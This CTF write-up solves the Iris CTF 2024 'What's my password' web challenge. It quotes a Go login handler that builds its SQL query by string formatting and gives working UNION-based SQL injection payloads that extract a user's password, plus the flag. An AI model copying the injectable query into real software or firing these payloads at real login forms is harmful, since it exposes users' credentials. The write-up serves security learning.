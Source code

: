 ```yaml
---
layout: writeup
category: Iris-CTF-2024
chall_description:
points: 50
solves: 422
tags: web sqli union
date: 2024-1-7
comments: false
---
```


[baby] Oh no! Skat forgot their password (again)!  

Can you help them find it?  

[https://whats-my-password-web.chal.irisc.tf/](https://whats-my-password-web.chal.irisc.tf/)  
[whats-my-password.tar.gz](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Iris-CTF-2024/whats-my-password.tar.gz)  

---

We're given a source folder for the site, `whats-my-password.tar.gz`. The only relevant part is `setup.sql` and `src/main.go`

Here's `setup.sql`:  

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

With a bit of research on that last part of SQL, I realized that what it was doing was likely just granting the capability of using `SELECT` to the user. So maybe we can do an SQL Union attack?  

Additionaly, it seems like the user `skat` has the flag as his password. Seems like that's our target!  

Now here's the relevant parts of `main.go`:  

```go
matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
    w.WriteHeader(http.StatusInternalServerError)
    return
}

if matched {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Username can only contain lowercase letters and numbers."))
    return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

Firstly, notice how we can only do SQL injection in the password input. This is because the username can only contain lowercase letters and numbers, making single/double quotes' usage impossible. However, there is no such check on the password. Additionally, take a look at the SQL statement. It is a very standard SQL select statement for login, and now we know we should use double quotes.  

Hence, let's try to construct our query. With Burp Suite's Repeater, we can repeatedly send the JSON POST data. I first sent this:  

```json
{"username":"a","password":"\"union select * from uwu.users-- "}
```

The `--` at the end denotes a comment so the SQL statement will execute properly and essentially ignore everything after our payload. The username is irrelevant, and `a` is merely a placeholder so it doesn't throw an exception for a missing username.  

Unfortunately, this query does not return the output we want!  

```json
{"username":"root","password":"IamAvEryC0olRootUsr"}
```

Hm. Maybe we can try selecting specifically for the `skat` user?  

```json
{"username":"a","password":"\"union select * from uwu.users where username='skat'-- "}
```

And now we get the output we want!  

```json
{"username":"skat","password":"irisctf{my_p422W0RD_1S_SQl1}"}
```

Therefore, the flag is:  

    irisctf{my_p422W0RD_1S_SQl1}